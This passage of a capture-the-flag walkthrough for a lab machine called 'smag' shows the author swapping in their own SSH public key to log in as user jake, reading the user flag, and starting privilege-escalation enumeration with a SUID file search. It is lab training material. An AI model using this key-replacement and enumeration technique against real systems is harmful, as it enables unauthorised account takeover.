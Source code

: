 ### Jake's Login

- Now generate a key pair and replace the public key with the newly generated key.
- Login using the private key:

```bash
$ ssh -i ~/.ssh/id_rsa jake@10.10.171.199
The authenticity of host '10.10.171.199 (10.10.171.199)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.171.199' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ whoami
jake
jake@smag:~$ ls
user.txt
jake@smag:~$ cat user.txt 
<REDACTED>
```

---

## Root Flag

### Check for SUID bit

```bash
jake@smag:~$ find / -perm -u=s 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/ping6
/bin/ping
/bin/fusermount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```
